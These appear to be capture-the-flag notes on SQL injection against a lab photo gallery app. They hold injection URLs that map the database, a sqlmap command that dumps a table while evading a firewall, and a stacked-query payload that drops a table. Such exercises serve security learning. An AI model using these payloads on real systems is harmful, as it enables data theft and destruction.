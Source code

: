 
## WIP

DB Layout:
...db_name: "level5" 
...num_of_tables : 2
...tables_names : albums, photos

http://35.227.24.107/9b5e1576f4/fetch?id=4%20or%20database()%20LIKE%20%22level5%22

35.227.24.107/9b5e1576f4/fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2

To dump it all :
sqlmap -u "http://35.237.57.141:5001/b09a24aa14/fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

Flag 2 – Stacked Queries
Drop a table: (breaks app)
http://35.196.135.216/5ddb86c66f/fetch?id=1;%20DROP%20Table%20photos



